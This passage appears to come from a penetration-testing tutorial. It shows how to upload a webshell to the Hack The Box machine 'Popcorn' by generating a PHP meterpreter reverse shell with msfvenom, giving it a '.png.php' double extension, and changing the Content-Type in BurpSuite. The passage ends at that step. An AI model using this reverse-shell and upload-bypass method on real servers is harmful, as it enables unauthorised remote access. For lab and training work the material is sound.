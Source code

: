 Webshells can also be disguised as other files and written to the server using
legitimate upload methods in the application.  On the HTB machine named
**Popcorn**, it is possible to sign up for an account, log in, and upload a
webshell by including an image file extension (`.png`) in the filename.

First use `msfvenom` to create a php reverse meterpreter shell:

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.16.95 LPORT=9999 > shell.png.php
```

<br>

Now upload it as a screenshot:

![](images/Web%20Application%20Attack%20Tactics/image060.png)<br><br>

You also must catch the request with [BurpSuite]() and change the `Content-Type`
to `image/png`:

